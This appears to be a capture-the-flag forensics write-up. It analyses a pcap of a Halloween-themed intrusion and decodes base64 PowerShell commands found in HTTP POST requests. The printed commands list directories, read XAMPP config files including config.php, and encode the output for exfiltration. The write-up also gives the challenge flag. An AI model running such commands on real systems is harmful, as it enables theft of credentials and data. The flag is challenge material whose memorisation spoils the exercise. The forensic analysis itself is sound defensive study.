




# WRITE_UP #

## FAKE NEWS ##
### 1. Analysis ###
* **Given:** a pcap named `capture.pcap`
* **Description:** On a fog-covered Halloween night, a secure site experienced unauthorized access under the veil of darkness. With the world outside wrapped in silence, an intruder bypassed security protocols and manipulated sensitive areas, leaving behind traceable yet perplexing clues in the logs.
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### FOGGY FOR THE BLINDFODED ####
So we were given a pcap file, let's use `Wireshark` to analyze it.

Open the pcap file, first I check the `Protocol Hierarchy` to find any suspicious protocol, as you can see the percentage of `HTTP` packet is quite high:



Follow some `HTTP stream`, in stream 3, we can find these abnormal **POST** requests contain abnormal payloads:



There are some base64 encoded strings, let's use CyberChef to see what they are:



```powershell
powershell.exe -C "$output = Get-ChildItem -Path C:; 
$bytes = [Text.Encoding]::UTF8.GetBytes($output); 
$compressedStream = [System.IO.MemoryStream]::new(); 
$compressor = [System.IO.Compression.DeflateStream]::new($compressedStream, [System.IO.Compression.CompressionMode]::Compress); $compressor.Write($bytes, 0, $bytes.Length); 
$compressor.Close(); 
$compressedBytes = $compressedStream.ToArray(); 
[Convert]::ToBase64String($compressedBytes)"
```

So it's a powershell script to encode the data sending to the attacker machine. There are 4 more request looks like this, after each request is a response from `http://halloweencorp.htb/dashboard/`. These scripts use the same encode method, just only thing changed is the command the attacker send through. Relatively, they are:
```ps1
powershell.exe -C $output = Get-ChildItem -Path C:; 
powershell.exe -C $output = Get-ChildItem -Path C:\xampp;
powershell.exe -C $output = Get-Content -Path C:\xampp\properties.ini;
powershell.exe -C $output = Get-Content -Path C:\xampp\htdocs\config.php;
powershell.exe -C $output = whoami;
```

We can easily decode the outputs of those commands in CyberChef:



## 3. Solution ##
1. **Result:** The flag is `HTB{f06_d154pp34r3d_4nd_fl46_w4s_f0und!}`


